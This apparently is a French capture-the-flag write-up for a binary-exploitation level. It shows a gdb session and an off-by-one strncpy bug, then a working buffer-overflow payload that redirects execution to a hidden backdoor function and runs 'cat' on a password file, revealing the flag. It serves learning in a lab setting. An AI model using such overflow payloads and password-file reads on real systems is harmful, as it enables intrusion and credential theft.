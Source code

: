# Level09

```shell
$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Hello
>: Welcome, Hello
>: Msg @Unix-Dude
>>: World
>: Msg sent!
```

On peut voir qu'il y a une fonction `secret_backdoor` non appellée, qui serai très utile. Notre objectif est de modifier le `rip` pour mettre l'adresse de cette fonction

```shell
$ gdb level09 -q
Reading symbols from /home/users/level09/level09...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0xaa8

(gdb) run
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aa8 in main ()
(gdb) x/x secret_backdoor
0x55555555488c <secret_backdoor>: 0xe5894855
```

On peut observer qu'il y a un `strncpy(s->username, username, 41)` dans la fonction `set_username` alors que `s->username[40]` fait donc 40 octets. Il va alors réécrire sur `s->i` qui est utilisé dans `strncpy(s->msg, message, s->i)`.

- `LEN_STRUCT + RBP + 4(DEMI_RIP) = 204 <=> 0xcc`

on aura alors une chaine `python -c 'print("A"*40 + "\xcc\n" + "B"*200 + "\x55\x55\x48\x8c"[::-1])'`

On a plus qu'à essayer

```shell
$ (python -c 'print("A"*40 + "\xcc\n" + "B"*200 + "\x55\x55\x48\x8c"[::-1]) + "\ncat /home/users/end/.pass"') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
